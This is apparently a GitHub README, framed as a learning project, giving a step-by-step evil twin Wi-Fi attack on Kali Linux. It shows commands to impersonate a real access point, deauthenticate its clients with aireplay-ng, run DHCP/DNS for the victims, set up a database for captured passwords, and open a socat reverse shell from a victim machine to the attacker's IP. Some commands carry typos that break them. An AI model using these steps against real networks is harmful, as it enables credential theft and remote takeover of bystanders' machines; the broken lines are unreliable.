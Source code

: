 # 前言  ![Awesome](https://cdn.rawgit.com/sindresorhus/awesome/d7305f38d29fed78fa85652e3a63e154dd8e8829/media/badge.svg)

仅供参考,此project为学习之用,了解破解流程,学习无线安全

The recording file is in the link below:

https://drive.google.com/open?id=1o4IqdME3WEvOzLvIsyyu2rsjSgy2o5-v

system : kali linux

software : aircrack-ng dnsmasq 
## Tasks

Evil Twin AP Attack: Set up a fake AP impersonating the target AP, and force target AP users to connect to it.

### 1. Start wireless card monitor mode 

```
airmon-ng start wlan0
```

(wlan0 is the port of the wireless network card,it can be check by inputing `ifconfig` or `iwconfig`)

### 2. Checking wireless AP(access point)

```
airodump-ng wlan0mon
```
(the prot been changed to wlan0mon after starting monitor mode)

this command can list all the information about AP ,Station and the traffic between them

you can see the name in the table 

BSSID : the MAC address of the AP

PWR : Signal strength

Beacons : one of the management frames, theo purpose of it is to transmit periodically, they serve to announce the presence of a wireless LAN and to synchronise the members of the service set.

Data : the throughput of the AP 

CH : channel

ENC : Encrept protocol 

ESSID : the name of AP

#### in case the channel will change over time,set the stable channel 
```
airodump-ng -c 11 -i wlan0 --bssid C4:71:54:23:2A:AE 
```

-c : channel number ,in this case , i choose 11

-i : choose the card to monitor 

--bssid : the MAC address of target AP

this command only show the traffic between client and target AP

## 3. Set up a fake AP impersonating the target AP

the client will be disconnected from the AP we input above 

```
airbase-ng -a AA:AA:AA:AA:AA:AA --essid 'Starbucks' -c 11 wlan0mon
```

-a :set up MAC address (this is optional)

-essid : the name of AP ,this should be same as the target WI-FI

-c : channel 11 (this is optional)

## 4. Deauth target by using aireplay-ng
```
aireplay-ng -0 0 -a C4:71:54:23:2A:AE -c EC:D0:9F:87:DD:6F  wlan0mon
```

-0 : Conflict attack mode , follow by the attack times , 0 represent all the times

-a : the MAC of AP  , this can be captured from the `airodump-ng wlan0mon`

-c : the client that connect to AP legally. if not spcecif which client , it will disconnect all the clients which connect to this WI-FI



## 5. Setup DNS and DHCP by using dnsmasq 

#### Dnsmasq provides Domain Name System (DNS) forwarder, Dynamic Host Configuration Protocol (DHCP) server, router advertisement and network boot features for small computer networks, created as free software.

1.Install dnsmasq in Kali Linux

```
apt-get update
apt-get install dnsmasq -y
```
This will update the cache and install latest version of dhcp server in your Kali Linux box.

Now all the required tools are installed. We need to configure apache and the dhcp server so that the access point will 

allocate the IP address to the client/victim and the client would be able to access our webpage remotely.

Now we will define the IP range and the subnet mask for the DHCP server.

2.Configure dnsmasq conf file 

Create a configuration file for dnsmasq using `vim` or your favorite text editor and add the following code.

```
vi ./conf/dnsmasq.conf
```
dnsmasq.conf

```
interface=at0         
dhcp-range=10.0.0.10,10.0.0.250,12h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
server=8.8.8.8
log-queries
log-dhcp
listen-address=127.0.0.1
```

```
Tip: Replace at0 with wlan0 everywhere when hostapd is used for creating an access point
```

Parameter Breakdown
```
dhcp-range=10.0.0.10,10.0.0.250,12h:  Client IP address will range from 10.0.0.10 to 10.0.0.250 and default lease time is 12 hours.
dhcp-option=3,10.0.0.1:  3 is code for Default Gateway followed by IP of D.G i.e. 10.0.0.1
dhcp-option=6,10.0.0.1:  6 for DNS Server followed by IP address
```




## Another method for setup DHCP server and Mysql(for password caputre) in kali (optional)

1. install DHCP server

```
sudo apt install -y isc-dhcp-server
```
2.modify DHCP conf file

type the command below in your terminal

```
vi /etc/dhcp/dhcpd.conf
```
change the content or uncomment the content as follow

```
authoritative;
default-lease-wime 600;
max-lease-time 7200;
subnet 192.168.1.128 netmask 255.255.255.128 {
option subnet-mask 255.255.255.128;
option broadcast 192.168.1.255;
option routers 192.168.1.129;
option domain-name-servers 8.8.8.8;
range 192.168.1.130 192.168.1.140;
}
```
launch the DHCP server ,

in kali , use command,

```
 dhcpd -cf /etc/dhcp/dhcpd.conf
```

after that ,type command below

start web server Apache

```
/etc/init.d/apache2.start
``` 
 
4.install mysql-server for storing captured password
 
```
apt-get install mariadb-server
```
Actually, for Kali Linux the apt-get install mysql-server command will not work, but try with apt-get install mariadb-server.
 
This will install MySQL
 
after installation ,type
 
```
/etc/init.d/mysql start
```



###  Reverse shell

1. install socat 

Type the command in your terminal

```
apt-get install socat
```
2. in victim machine
in this case 

VICTIM IP：192.168.1.107

KALI IP：192.168.1.102

Type command

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.102:4444
```
Just change the victimIP with your target IP

and in the attcker machine which is kali

Type command

```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

## Authors

US579 

## License

This project is licensed under the MIT License - see the [LICENSE.md](LICENSE.md) file for details
